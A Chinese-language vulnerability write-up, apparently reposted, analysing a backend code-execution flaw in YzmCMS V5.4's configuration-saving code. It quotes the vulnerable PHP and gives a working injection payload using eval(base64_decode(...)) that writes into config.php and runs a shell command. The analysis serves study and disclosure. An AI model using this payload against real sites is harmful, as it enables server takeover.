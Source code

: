 # YzmCMS V5.4 后台getshell（二）

> 原文：[https://www.zhihuifly.com/t/topic/3309](https://www.zhihuifly.com/t/topic/3309)

# YzmCMS V5.4 后台getshell（二）

## 一、漏洞简介

## 二、漏洞影响

YzmCMS V5.4

## 三、复现过程

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![image](img/b5a6ae60653884d8ad911fb927b8eaaa.png)

该函数位于文件`application/admin/common/function/function.php`

```
function set_config($config) {
    $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
    if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
    $pattern = $replacement = array();
    foreach($config as $k=>$v) {
        $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
        $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
    }
    $str = file_get_contents($configfile);
    $str = preg_replace($pattern, $replacement, $str);
    return file_put_contents($configfile, $str, LOCK_EX);       
} 
```

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

```
public function save() {
        yzm_base::load_common('function/function.php', 'admin');
        if(isset($_POST['dosubmit'])){
            if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
            }
            if(isset($_POST['upload_types'])){
                if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
            }
            $arr = array();
            $config = D('config');
            foreach($_POST as $key => $value){
                if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                    $value = safe_replace(trim($value));
                    $arr[$key] = $value;
                }else{
                    if($key!='site_code'){
                        $value = htmlspecialchars($value);
                    }
                }
                $config->update(array('value'=>$value), array('name'=>$key));
            }
            set_config($arr);
            delcache('configs');
            showmsg(L('operation_success'), '', 1);
        }
    } 
```

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

```
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','&lt;',$string);
    $string = str_replace('>','&gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\\','',$string);
    return $string;
} 
```

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![image](img/40af95ef879a119eae49eef244952b07.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

```
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1 
```

先查看配置文件原先的内容

![image](img/9c63df80564aeff53e02c071ec8e4510.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![image](img/3c69f7b635f84cdac075ad0509978ae4.png)

提交以后可以发现已经成功执行命令了

![image](img/ca3380ae9d91b38def813384674f2060.png)

再回去查看配置文件可以看到代码也写入了

![image](img/99a296d259da54244bad179bd925298f.png)

## 参考链接

> https://xz.aliyun.com/t/7231#toc-5